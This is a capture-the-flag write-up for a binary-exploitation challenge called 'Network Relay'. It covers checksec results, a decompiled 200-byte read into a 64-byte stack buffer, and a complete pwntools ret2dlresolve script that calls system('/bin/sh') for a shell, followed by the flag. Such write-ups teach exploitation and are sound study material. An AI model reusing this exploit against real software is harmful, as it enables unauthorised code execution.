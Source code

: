 # Network Relay - Writeup

---

## Exploit Demo

This demo illustrates the exploit process, culminating in shell access via `ret2dlresolve`:

![Alt text](gif/NetworkRelay.gif)

---

## Binary Inspection

### Step 1: Initial Binary Details

```bash
$ file main
```

- 64-bit dynamically linked ELF binary
- Not stripped

![Alt text](img/1.png)

### Step 2: Security Protections

```bash
$ pwn checksec main
```

- **RELRO**: Partial
- **Stack**: No canary
- **NX**: Enabled
- **PIE**: Disabled (base address fixed at 0x400000)

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reverse engineering the binary shows the vulnerability resides in the `user_input()` function:

### user_input()

```c
ssize_t user_input()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF
  return read(0, buf, 0xC8uLL);  // Reads 200 bytes into a 64-byte buffer!
}
```

![Alt text](img/3.png)

- This function reads **200 bytes** into a buffer that's only 64 bytes long, introducing a **classic stack-based buffer overflow**.
- The binary has **no stack canary**, making the overflow straightforward to exploit.
- There is **no return-style function** (like `system`, `exit`, or a function pointer) to pivot to.
- **Libc is not provided**, so calling `system("/bin/sh")` via a static address is not viable.

---

## How to Solve

We solve this challenge using **`ret2dlresolve`**, a powerful dynamic linker resolution technique.

**Why?**

- No direct access to libc symbols.
- No system call or syscall gadgets available.
- No return function like `system()` in the binary.
- But the binary is **dynamically linked** — meaning we can exploit the dynamic linker itself to resolve and call `system`.

---

## Vulnerability Summary

- **Buffer Overflow** in `user_input()` via oversized `read()` call.
- **No stack canary** → safe to overflow.
- **NX enabled** → code injection is blocked, so we use a ROP chain.
- **No PIE** → static base makes ROP reliable.
- **No `system` in binary or known libc** → use `ret2dlresolve`.

---

## Exploit Strategy

1. **Overflow the stack** to hijack control flow.
2. **Build a ROP chain** to:

   - Call `read()` again to write the forged `Elf64_Rel`, `Elf64_Sym`, and command string (`/bin/sh`) into memory.
   - Trigger the dynamic linker via `ret2dlresolve()` to resolve `system` and call it with `"/bin/sh"`.

3. **Send second-stage payload** (dlresolve structures + `/bin/sh`).
4. **Get a shell**.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

rop = ROP(exe)

dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh'])
rop.raw('A' * 72)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
log.info(rop.dump())
io.sendline(rop.chain())
io.sendline(dlresolve.payload)

io.interactive()


```

---

## Result

After executing the exploit, we successfully resolve and call `system("/bin/sh")`.

---

## FLAG

```
RedPointer{HelloPhantom!23}
```
